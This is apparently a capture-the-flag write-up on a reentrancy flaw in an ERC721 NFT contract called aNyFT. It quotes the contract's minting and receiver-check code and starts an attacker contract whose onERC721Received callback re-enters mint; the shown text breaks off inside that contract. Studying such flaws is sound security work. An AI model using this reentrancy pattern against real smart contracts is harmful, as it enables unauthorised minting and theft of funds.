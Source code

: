 When we mint a new token, the function calls _safeMint, but our message.value must be between 5e15 and 500e15 or 5 finney and 500 finney. This means that we cannot mint a token with a value of 11 ether.

```js
function _safeMint(address to, uint256 tokenId, bytes memory data) internal virtual {
        _mint(to, tokenId);
        deposits[to] = msg.value;
        _checkOnERC721Received(address(0), to, tokenId, data);
    }
```

The _safeMint function is called whenever we mint a new aNyTF token. This seems to be the only way to update the deposits value. However, it only is able to set our deposits value to the amount of ether we specify when minting a new token. This means that we need to find some way to mint a token with a value of 11 ether. 

Interestingly, there is a known reentrancy exploit in ERC721 tokens that can allow us to mint as many tokens as we want. 

```js
function _checkOnERC721Received(address from, address to, uint256 tokenId, bytes memory data) private {
        if (to.code.length > 0) {
            try IERC721Receiver(to).onERC721Received(msg.sender, from, tokenId, data) returns (bytes4 retval) {
                if (retval != IERC721Receiver.onERC721Received.selector) {
                    revert ERC721InvalidReceiver(to);
                }
            } catch (bytes memory reason) {
                if (reason.length == 0) {
                    revert ERC721InvalidReceiver(to);
                } else {
                    /// @solidity memory-safe-assembly
                    assembly {
                        revert(add(32, reason), mload(reason))
                    }
                }
            }
        }
    }
```

In this function, which is called in the _safeMint function, we can see that the `onERC721Received` function is called on the to address. This means that we can create a contract that implements the `onERC721Received` function and then call the _safeMint function with the address of our contract as the to address. This will call the `onERC721Received` function in our contract and allow us to recall the mint function before `createdNFT[msg.sender] = true;` is updated.

```ts
contract Attack is IERC721Receiver{
    aNyFT public  anyFT;
    bytes4 private constant _ERC721_RECEIVED = IERC721Receiver.onERC721Received.selector;
    uint256[] public tokenIds;

    constructor (address _addr) {
        anyFT = aNyFT(_addr);
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        anyFT.mint("bruh");
        emit ERC721Received(operator, from, tokenId, data);
```